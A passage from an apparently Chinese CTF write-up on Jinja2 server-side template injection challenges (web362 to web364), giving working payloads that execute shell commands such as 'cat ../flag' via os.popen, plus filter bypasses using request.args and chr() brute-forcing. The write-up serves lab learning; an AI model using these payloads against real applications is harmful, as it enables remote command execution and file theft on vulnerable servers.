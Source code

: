 ```
?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }} 
```

## web362

这题说开始过滤了，但是不知道过滤了什么，而且用web361的payload就可以直接过。。。

## web363

过滤了`引号`

### request.args传参绕过

这里参考了[大佬的文章](https://xz.aliyun.com/t/6885)。

假设传入`{{ config.__class__.__init__.__globals__['os'] }}`,因为引号被过滤，所以无法执行，可以把`'os'`换成`request.args.a`(这里的a可以理解为自定义的变量，名字可以任意设置)

随后在后面传入a的值，变成`{{ config.__class__.__init__.__globals__[request.args.a] }}&a=os`，与原命令**等效**

**Payload:**
比如我们要构造`?name={{ config.__class__.__init__.__globals__['os'].popen('cat ../flag').read() }}`，但是引号不能使用了，就可以把这两处使用引号的地方替换掉，最终变成
`?name={{ config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read() }}&a=os&b=cat ../flag`

## web364

过滤了`引号和args`,上题的姿势不能用了，但是可以用`chr()函数`绕过。

### chr()绕过

可以用这个payload判断**chr()函数的位置**：
`{{().__class__.__bases__[0].__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}}`

用burp抓包爆破
![在这里插入图片描述](img/41a44907562af26816cb75872c7a3588.png)
可见爆破出来很多，可以任选一个，我选的是80